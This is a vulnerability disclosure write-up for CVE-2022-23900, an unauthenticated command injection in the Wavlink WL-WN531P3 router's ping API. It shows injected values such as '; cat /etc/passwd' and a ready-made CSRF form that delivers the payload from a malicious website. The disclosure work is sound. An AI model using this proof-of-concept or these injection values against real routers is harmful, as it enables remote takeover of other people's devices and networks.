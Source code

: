 ```yaml
---
title: Wavlink Command Injection - CVE-2022-23900 
author: stigward 
date: 2022-04-06 11:33:00 +0800
categories: [Vuln Research, IoT]
tags: [firmware, research, iot]
math: true
mermaid: true
---
```


# Wavlink Command Injection (CVE-2022–23900)

## TL/DR:

The  [Wavlink WL-WN531P3 router](https://www.amazon.com/Wireless-Touchlink-Beamforming-High-Gain-Connections/dp/B07WNV36B2)  exposes an API endpoint susceptible to command injection. This API endpoint is reachable without an authentication header, meaning the vulnerability can be exploited by an unauthenticated attacker. Furthermore, the router has no CSRF protection, thus RCE can be achieved without connecting to the local network.

## Vulnerability Description and Discovery:

The router hosts an API that is used to accept requests made from within the Admin portal. One thing a user can do from within this portal is send a  `ping`  command. An example has been included below:

![](https://miro.medium.com/max/1400/1*r2YxDLi4t-Db4XZQ8z3Pyg.png)

Because  `ping`  is a well-known bash command, we may immediately begin to theorize about the possibility of command injection.

### Command Injection Explanation:

For those unfamiliar with command injection, here is a quick rundown:

Let’s take the above  `ping`  functionality and walk through what could be happening between the web portal and the router.

1.  You as the user input the IP you wish to ping.
2.  The Admin portal sends a request to the router with the IP you specified.
3.  The router’s API endpoint handles the request with something like the following (yes this example has a BOF, it’s strictly an example):

char command[50];  
strcpy(command, "ping ")  
strcat(command, user_specified_ip)  
system(command)

In the above code, we first add “ping “ to the  `command`  buffer. Then we add what is stored in  `user_specified_ip`  to our buffer, imagining this variable is storing the IP we specified in the Admin portal. Finally, we run  `system(command)`  which will execute our shell command (`ping <ip>`) on the underlying host operating system.

### Abusing the  `system`  command:

You can run two shell commands in one line if you delaminate them with a  `;`  . So if you open a command prompt and run  `whoami; touch test.txt`  , the command will first output the result  `whoami`  and then it will create the file  `test.txt`. With this knowledge, we can exploit the  `ping`  example from above.

1.  Instead of inputting an IP in the admin panel, we input  `; whoami`.
2.  Now the command that gets run on the underlying OS is  `ping ; whoami`.
3.  The ping command fails as no argument is provided to it, and  `whoami`  subsequently executes, demonstrating an ability to run arbitrary commands on the box.

## Exploitation:

So, spoiler alert but the explanation above is pretty much verbatim what is happening on the router. We can demonstrate this by providing the following input:

![](https://miro.medium.com/proxy/1*hFDF_mkt0cCcd37fAGjnnQ.png)

We can also prove that the filesystem is not just read-only by creating a new file.

![](https://miro.medium.com/proxy/1*LTSwXi7yDe0JsFOxSDQW7A.png)

![](https://miro.medium.com/proxy/1*80gO-SzHr7KiC0qq-hk3Ww.png)

Things get slightly more interesting though. Looking at the screenshot of a malicious request below, we note that the  `pingIp`  variable, which is sent in a POST to the  `/cgi-bin/adm.cgi`  endpoint, is what contains our payload. Here we are reading the contents of  `/etc/passwd`

![](https://miro.medium.com/proxy/1*FkzY1fRMKaikN7AmpbHMog.png)

Because the user is logged in to the Admin portal, our malicious request includes a session cookie in the header (line 13 in the above screenshot). However, if we remove that header, the request is still successful, demonstrating this vulnerability is exploitable by an unauthenticated attacker.

![](https://miro.medium.com/proxy/1*ZYKq-qBoVQAKMe75WzTqIQ.png)

### Chaining with a CSRF:

The last step to weaponizing this exploit is adding the malicious request to an attacker-controlled website. The idea is as follows:

1.  An attacker from anywhere in the world creates a website that sends a malicious request to  `192.168.10.1/cgi-bin/adm.cgi`.
2.  The attacker sends the site to someone with the vulnerable Wavlink router.
3.  The victim opens the site, and a malicious request is sent to the router on their local network.

We can use the following fake website to achieve this result:

_Note that I have our payload submitted on a button click, but we could have it take place on page load for less required user interaction._
```html
<html>  
    <body>  
        <h1>Totally Not Malicious Website</h1>  
        <form action="http://192.168.10.1/cgi-bin/adm.cgi" method="POST">  
            <input type="hidden" name="page" value="ping_test" />  
            <input type="hidden" name="CCMD" value="4" />  
            <input type="hidden" name="pingIp" value="; cat /etc/passwd" />  
            <input type="submit" value="DONT CLICK" />  
        </form>  
    </body>  
</html>
```

And with that, an unauthenticated RCE from outside the local network can be achieved on any Wavlink WL-WN531P3 router.

![](https://miro.medium.com/proxy/1*CAF3uI-pod2D8rTRwnzK5g.png)

![](https://miro.medium.com/proxy/1*QpMHjRWuKUn6k3QJv_hXqg.png)

## Closing Thoughts:

This is a meme of an issue, but it is my first official CVE so I’ll take it. It does emphasize that IoT devices still struggle with low-hanging vulnerabilities, so if you are looking for a way to get started in security research, this is a good area to get your hands dirty.

If you enjoyed this write-up, feel free to follow me on Twitter  [@_stigward_](https://twitter.com/_stigward), where I tweet things about security, programming, and current projects. Currently, I am working on some content related to IoT hacking and smart contract auditing
